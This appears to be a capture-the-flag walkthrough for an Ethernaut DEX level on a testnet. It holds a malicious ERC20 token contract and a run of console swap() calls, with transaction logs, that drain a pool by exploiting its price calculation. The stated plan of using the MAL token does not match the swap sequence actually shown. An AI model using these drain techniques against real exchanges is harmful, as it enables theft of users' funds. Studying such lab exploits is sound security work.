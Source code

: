 Exploitation
The following scenario will be used,
- Create MAL token and mint 1M MAL to our address.
- We’ll use add_liquidity() to transfer our MAL token to the Dex contract.
 So, approve an allowance of MAL for the Dex contract (spender) because it requires by transferFrom() in add_liquidity().
- Transfer MAL to the Dex contract for 100 MAL, we’ll drain token2. 
Currently, the Dex contract has 100 token2, the price ratio for MAL:token2 is 1:1.
- Drain token2 using swap().

Steps
1. Create MAL token by using Openzeppelin’s ERC20 and mint 1M of MAL to our address via _mint().


>t1 = await contract.token1()
'0x07F6d4816934a456dd9f49a857cfc8C7CAE5d4F4'

>t2 = await contract.token2()
'0xa2c11dE85350A72E0f83D26b5835D74c8fA41C08'

//openzeppelin tokenをcompile 
/AnyToken.sol

pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor () public ERC20("Malicious", "MAL") {
        _mint(msg.sender, 1000000 * (10 ** uint256(decimals())));
    }
}

//token1をAt Addressにcopy, 
//Developed Contracts approve of spender by Ethernautのinstanceとamount 10_000_000
[block:10966548 txIndex:0]from: 0xF6e...f30F5to: 0x07F6d4816934a456dd9f49a857cfc8C7CAE5d4F4 0x07F...5d4F4value: 0 weidata: 0x095...89680logs: 0hash: 0x86f...087cc

//allowanceのownerを自分のwallet, spenderをEthernautのinstanceにsetting
*block addressコピーするとbug発生するから注意
0:uint256: 10000000

//token2をAt Addressにcopy, 
//Developed Contracts approve of spender by address of Ethernaut instanceとamount 10_000_000

//allowanceのownerを自分のwallet, spenderをEthernautのinstanceにsetting

0:uint256: 10000000

>await contract.swap(t1, t2, 10)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4aa89e6c034c845a3f8f4b30cdd26f6c89bdd811138be827edf7e6ff04f74825
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4aa89e6c034c845a3f8f4b30cdd26f6c89bdd811138be827edf7e6ff04f74825
{tx: '0x4aa89e6c034c845a3f8f4b30cdd26f6c89bdd811138be827edf7e6ff04f74825', receipt: {…}, logs: Array(0)}

>await contract.swap(t2, t1, 20)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4350bbb7af6f1b676fc565782e7a7cf8c948504376955f4d1a97ad1e5c246e57
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4350bbb7af6f1b676fc565782e7a7cf8c948504376955f4d1a97ad1e5c246e57
{tx: '0x4350bbb7af6f1b676fc565782e7a7cf8c948504376955f4d1a97ad1e5c246e57', receipt: {…}, logs: Array(0)}

>await contract.swap(t1, t2, 24)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x6d9af339db16e6c9c730243ade74d03d10516360e0d21e28c498293599c37569
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x6d9af339db16e6c9c730243ade74d03d10516360e0d21e28c498293599c37569
{tx: '0x6d9af339db16e6c9c730243ade74d03d10516360e0d21e28c498293599c37569', receipt: {…}, logs: Array(0)}

>await contract.swap(t2, t1, 30)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x1579bcf5eb89950f1a06dc9f7c5fe0181b73e7b7596aa8608e6e44d32254f730
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x1579bcf5eb89950f1a06dc9f7c5fe0181b73e7b7596aa8608e6e44d32254f730
{tx: '0x1579bcf5eb89950f1a06dc9f7c5fe0181b73e7b7596aa8608e6e44d32254f730', receipt: {…}, logs: Array(0)}

>await contract.swap(t1, t2, 41)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xb4677ba1ce3ebf654dfea4e08cfe837f418a20f8f556dfdd38fa9f31d7dba6a6
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xb4677ba1ce3ebf654dfea4e08cfe837f418a20f8f556dfdd38fa9f31d7dba6a6
{tx: '0xb4677ba1ce3ebf654dfea4e08cfe837f418a20f8f556dfdd38fa9f31d7dba6a6', receipt: {…}, logs: Array(0)}

>await contract.swap(t2, t1, 45)

e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xcc9992af883cc5a107bdf39c0b274d50d07f13c8c6503a306f22214607ad1d80
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xcc9992af883cc5a107bdf39c0b274d50d07f13c8c6503a306f22214607ad1d80
{tx: '0xcc9992af883cc5a107bdf39c0b274d50d07f13c8c6503a306f22214607ad1d80', receipt: {…}, logs: Array(0)}

